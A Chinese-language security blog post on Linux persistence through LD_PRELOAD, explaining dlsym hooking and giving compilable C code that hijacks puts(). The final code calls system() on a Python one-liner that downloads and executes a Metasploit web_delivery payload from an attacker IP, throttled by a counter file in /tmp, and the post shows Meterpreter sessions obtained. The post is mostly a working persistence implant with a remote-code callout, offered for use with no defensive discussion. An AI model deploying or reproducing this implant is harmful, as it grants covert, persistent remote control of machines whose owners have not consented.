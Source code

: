 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。
title: Linux权限维持之LD_PRELOAD
url: /archivers/2020-01-01/1
---
```


## LD_PRELOAD 

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

## dlsym

**dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。**

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：


> void * dlsym(void * handle,const char * symbol)

* handle：由dlopen打开动态链接库后返回的指针；
* symbol：要求获取的函数或全局变量的名称。

返回值：void * 指向函数的地址，供调用使用。

劫持示例代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>

int puts(const char *message) {
  int (*new_puts)(const char *message);
  int result;
  new_puts = dlsym(RTLD_NEXT, "puts");
// do some thing …
// 这里是puts调用之前
  result = new_puts(message);
  // 这里是puts调用之后
  return result;
}
```

编译命令：

`gcc hook.c -o hook.so -fPIC -shared -ldl -D_GNU_SOURCE`

* -fPIC 选项作用于编译阶段，告诉编译器产生与位置无关代码（Position-Independent Code）；这样一来，产生的代码中就没有绝对地址了，全部使用相对地址，所以代码可以被加载器加载到内存的任意位置，都可以正确的执行。这正是共享库所要求的，共享库被加载时，在内存的位置不是固定的。
* -shared 生成共享库格式
* -ldl 显示方式加载动态库，可能会调用dlopen、dlsym、dlclose、dlerror
* -D_GNU_SOURCE 以GNU规范标准编译

编写好劫持puts函数的代码后，需要先生成一个Metasploit木马，使得在系统调用puts函数之前，都执行一次木马。

![2020-01-03-13-09-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a981d7261f39ee47c93b0e42a8a68a39.png)

`exploit/multi/script/web_delivery` 模块能够直接生成一条Python命令，这能够非常方便的获得Meterpreter。
接下来，将劫持puts函数的代码做一些小改动，在执行puts之前，调用系统函数system来运行python命令，这样每次调用puts都可以获得Meterpreter会话。

![2020-01-03-13-09-40](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/453478b8e6f0c711e8e33e92ff55600e.png)

正常执行的过程：

![2020-01-03-13-09-51](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/00ff5dc344eedf05cecd3480d2396db1.png)

执行whoami后，由于底层会调用puts函数，因此也会执行python命令，Metasploit不出意外的获得了Meterpreter：

![2020-01-03-13-10-01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ad5b8eaa7081113775743b6929919ee4.png)

接着，为了防止在短时间内获得多个重复的会话，因此需要优化一下代码，例如以某个文件行数和调用puts函数的次数进行取余，就能够达到执行多少次puts函数获得一次Meterpreter。
优化代码如下：

```c

#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <sys/stat.h>
#define BUFFER_SIZE 100
#define COMMAND_NUM 5
int check_file_line(char * filename){
	int file_line = 0;
	char buffer[BUFFER_SIZE];
	FILE *fp = NULL;
	fp = fopen(filename,"r");
	if(fp==NULL){
		return file_line;
	}

	while(fgets(buffer,BUFFER_SIZE,fp)!= NULL){
		file_line ++;
	}
	fclose(fp);
	return file_line;
}

void add_file_line(char * filename){
	FILE * fp = NULL;
	fp = fopen(filename,"a+");
	if(fp == NULL){
		return;
	}
	
	fputs("1\n",fp);
	fclose(fp);
}

void call_system(){

  system("python -c \"import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.170.138:8080/o1ZJy3Wue');exec(r.read());\"");

}

int puts(const char *message) {
  char * filename = "/tmp/err.log";
  int (*new_puts)(const char *message);
  int result;
  int file_lines = 0;
  new_puts = dlsym(RTLD_NEXT, "puts");
  add_file_line(filename);
  file_lines = check_file_line(filename);
  printf("[+]file_line : %d, NUM = %d \n",file_lines, COMMAND_NUM);
  if(file_lines % COMMAND_NUM == 0){
  	call_system();
  }
  result = new_puts(message);
  return result;
}
```

![2020-01-03-13-10-13](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6923c9d63c7a4b9563bd298f01df9c98.png)

在执行至第零次、五次时，成功返回了会话：


![2020-01-03-13-10-21](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7462655c88874bbc909aa75c7cb940f2.png)

COMMAND_NUM 可自定义